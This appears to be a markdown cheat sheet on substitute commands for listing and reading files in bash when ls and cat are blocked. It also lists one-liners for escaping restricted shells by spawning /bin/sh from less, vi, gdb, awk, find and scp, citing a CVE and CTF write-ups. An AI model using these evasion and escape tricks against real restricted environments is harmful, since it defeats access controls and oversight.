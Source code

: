 # Ways to list or cat directories and files

## Introduction

To list a directroy, we can simply use `ls` command; To cat a file, we can simply use `cat` command.

But, if today we cannot use those commands, what else can we use?

### Tricks

- Mutated `ls` and `cat` - bash hacks

```bash
bash$ l``s
test  test_dir
bash$ c``at test
this is a test
1
2
3

```

- `du` - List all files:

```bash
bash$ du *
4	test
4	test_dir
```

- `tac` - Reversed version of `cat`

```bash
bash$ cat test
this is a test
1
2
3

bash$ tac test

3
2
1
this is a test
```

- `rev`: reverse line

```bash
bash$ cat test
this is a test
1
2
3

bash$ rev test
tset a si siht
1
2
3

```

- `strings` - print the strings of printable characters in files

```bash
bash$ strings test
this is a test
```

- `xxd`: make a hexdump or do the reverse

```bash
bash$ cat test
this is a test
1
2
3

bash$ xxd test
0000000: 7468 6973 2069 7320 6120 7465 7374 0a31  this is a test.1
0000010: 0a32 0a33 0a0a                           .2.3..
```

- `awk`

```bash
bash$ awk '{system("wc "$0)}' unknown
wc: very: No such file or directory
wc: secret: No such file or directory
0 0 0 total
```

### Extenal Program

- ftp - `!/bin/sh`
- gdb - `!/bin/sh`
- more / less / man - `!/bin/sh`
- vi / vim - `:!/bin/sh`
- scp `-S /tmp/getMeOut.sh` x y:
- awk `'BEGIN {system("/bin/sh")}'`
- find / -name someName `-exec /bin/sh` \;

## Impact

These sort of things often used to break out from the restricted shell environment.

For instance, [CVE-2017-8386](https://github.com/qazbnm456/awesome-cve-poc#cve-2017-8386) takes advantage of executing arbitrary commands from `less` command.

## Reference

1. https://github.com/ctfs/write-ups-2015/tree/master/volgactf-quals-2015/pwn/bash
2. [Escape From SHELLcatraz - Breaking Out of Restricted Unix Shells](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
